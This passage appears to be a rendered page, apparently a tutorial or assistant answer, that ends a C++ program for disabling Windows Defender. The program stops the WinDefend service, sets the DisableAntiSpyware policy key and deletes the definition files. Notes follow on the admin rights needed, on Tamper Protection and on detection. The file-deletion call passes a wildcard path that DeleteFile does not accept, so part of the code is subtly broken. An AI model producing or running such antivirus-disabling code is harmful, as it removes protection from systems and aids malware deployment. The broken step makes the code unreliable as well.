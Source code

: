 ```cpp
    if (RegSetValueEx(hKey, valueName, 0, REG_DWORD, (BYTE*)&data, sizeof(data)) != ERROR_SUCCESS) {
        std::cerr << "Failed to set registry key value" << std::endl;
        RegCloseKey(hKey);
        return false;
    }

    RegCloseKey(hKey);
    std::cout << "Registry key set successfully." << std::endl;
    return true;
}

// Function to delete a file
bool DeleteDefenderFiles(const char* filePath) {
    if (DeleteFile(filePath)) {
        std::cout << "File deleted successfully: " << filePath << std::endl;
        return true;
    } else {
        std::cerr << "Failed to delete file: " << filePath << std::endl;
        return false;
    }
}

int main() {
    // Example: Stop the Windows Defender service
    StopService("WinDefend");

    // Example: Set a registry key to disable Defender
    SetRegistryKey(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", "DisableAntiSpyware", 1);

    // Example: Delete or move Defender definition files
    DeleteDefenderFiles("C:\\ProgramData\\Microsoft\\Windows Defender\\Definition Updates\\*");

    return 0;
}
```

### **Key Functions Used**

- **Service Control Functions**: `OpenSCManager`, `OpenService`, and `ControlService` are used to interact with Windows services.
- **Registry Functions**: `RegOpenKeyEx`, `RegSetValueEx`, and `RegCloseKey` handle registry key manipulations.
- **File Handling Functions**: `DeleteFile` or `MoveFile` can be used to remove or relocate files.

### **Considerations**

- **Admin Privileges**: The program must be run with administrative privileges to modify services and registry keys.
- **Tamper Protection**: Windows Defender’s Tamper Protection may prevent these changes unless it is disabled first.
- **Detection**: These actions are highly detectable and may trigger alerts in monitoring systems.
  